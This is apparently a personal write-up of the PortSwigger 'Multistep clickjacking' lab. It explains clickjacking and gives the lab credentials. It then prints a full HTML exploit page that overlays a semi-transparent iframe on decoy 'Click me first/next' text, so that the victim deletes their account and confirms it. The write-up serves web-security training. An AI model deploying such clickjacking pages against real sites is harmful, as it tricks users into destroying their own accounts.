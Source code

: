 Attackers can manipulate a website by performing multiple actions.

#### Example - 
They might try to trick a user into making a purchase on a retail website. To do this, they may need to add items to a shopping cart before completing the order. Attackers can use techniques like dividing the webpage into sections or embedding other web content within it (iframes) to carry out these actions.

## Steps to solve lab -
### Title - Multistep clickjacking

**Desc** - This lab has some account functionality that is protected by a [CSRF](https://portswigger.net/web-security/csrf) token and also has a confirmation dialog to protect against [Clickjacking](https://portswigger.net/web-security/clickjacking). To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

**Creds** - wiener:peter

1. Log in to your account on the target website.
  ![[clickjacking2.png]]

2. Go to the exploit server and paste the following HTML template into the **Body** section:
```jsx
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>Document</title>
</head>
<style>
	#target_website {
		position: relative;
		width: 800px;
		height: 850px;
		opacity: 0.5;
		z-index: 2;
		}
	#decoy_website1 {
		position: absolute;
		z-index: 1;
		top: 495px;
		left: 53px;
		}
	#decoy_website2 {
		position: absolute;
		z-index: 1;
		top: 290px;
		left: 213px;
		}
</style>
<body>
	<div id="decoy_website2">
		Click me next
	</div>
	<div id="decoy_website1">
	Click Me first
	</div>
	<iframe scrolling="no" id="target_website" src="https://0a5000c403efbd27809221760085002c.web-security-academy.net/my-account" >
	</iframe>	
</body>
</html>
```

4. Click **Store** and then **View exploit**.
5. Click on **Deliver exploit to victim** and the lab should be solved.
![[clickjacking23.png]]

![[clickjacking24.png]]

![[clickjacking25.png]]

